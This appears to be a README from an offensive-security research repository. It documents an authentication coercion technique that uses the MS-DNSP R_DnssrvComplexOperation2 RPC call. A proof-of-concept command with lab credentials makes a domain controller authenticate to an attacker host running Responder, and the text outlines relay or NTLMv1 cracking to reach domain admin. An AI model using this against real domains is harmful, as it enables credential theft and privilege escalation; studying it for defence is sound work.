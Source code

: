 # MS-DNSP - Remote call to R_DnssrvComplexOperation2 (opnum 7)

## Summary

+ **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

+ **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `\PIPE\DNSSERVER`

+ **Function name**: [`R_DnssrvComplexOperation2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/d28e3ba8-5742-417d-ad6d-2e0139ab2ad9)

+ **Function operation number**: `7`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvComplexOperation2`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/d28e3ba8-5742-417d-ad6d-2e0139ab2ad9) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvComplexOperation2('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvComplexOperation2(
   [in]                                 handle_t               hBindingHandle,
   [in]                                 DWORD                  dwClientVersion,
   [in]                                 DWORD                  dwSettingFlags,
   [in, unique, string]                 LPCWSTR                pwszServerName,
   [in, unique, string]                 LPCSTR                 pszZone,
   [in, unique, string]                 LPCSTR                 pszOperation,
   [in]                                 DWORD                  dwTypeIn,
   [in, switch_is(dwTypeIn)]            DNSSRV_RPC_UNION       pDataIn,
   [out]                                PDWORD                 pdwTypeOut,
   [out, switch_is(*pdwTypeOut)]        DNSSRV_RPC_UNION*      ppDataOut
 );
```

## References

+ Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

+ Documentation of function `R_DnssrvComplexOperation2`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/d28e3ba8-5742-417d-ad6d-2e0139ab2ad9